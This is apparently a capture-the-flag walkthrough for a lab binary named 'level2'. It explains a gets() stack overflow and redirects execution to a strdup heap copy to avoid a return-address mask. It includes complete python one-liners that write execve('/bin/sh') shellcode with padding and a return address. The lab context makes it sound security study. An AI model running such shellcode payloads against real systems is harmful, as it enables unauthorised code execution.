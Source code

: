 ```
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
```

For this one ltrace reveals another gets call

This time there is no uncalled function to help us

Wel'll perform a shellcode injection 
https://shell-storm.org/shellcode/files/shellcode-841.html

Injecting the shellcode is easy thanks to gets

Thanks to a pattern generator, we can see that the offset is 80, so our shellcode must stay below 80 bytes, with + 4 for the return address.

|        Buffer             |
|____________80_____________| 
| 21      | 59              | 4               |
| Payload | padding         | return address  |

We get the address of our buffer and append it

python -c 'print ("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "\x90" * 59 + "\xdc\xf6\xff\xbf")' > /tmp/2

But the code uses a binary mask to detect such return point overrides, and it leads to an exit so no luck here

But later on there is a call to strdup of the input string, and this address does not match with the mask so we're good

The malloc always gives out address 0x804a008 so '\x08\xa0\x04\x08'

python -c 'print ("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "\x90" * 59 + "\x08\xa0\x04\x08")' > /tmp/2